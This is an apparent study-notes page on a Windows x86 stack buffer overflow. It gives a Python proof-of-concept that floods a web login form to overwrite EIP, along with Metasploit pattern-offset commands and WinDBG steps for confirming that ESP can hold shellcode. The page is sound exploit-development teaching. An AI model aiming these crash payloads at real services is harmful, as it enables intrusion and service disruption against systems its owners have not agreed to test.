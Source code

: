 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = "192.168.1.1" # host
    port = 80
    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:

    ```
    ...
    filler = b"A" * 780
    eip = b"B" * 4
    buf = b"C" * 16
    inputBuffer = filler + eip + buf
    ...
    ```

5. If the EIP offset is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers, then use `dds esp L3` to see if the ESP register points to Cs. If yes it means we can use ESP to host shellcode.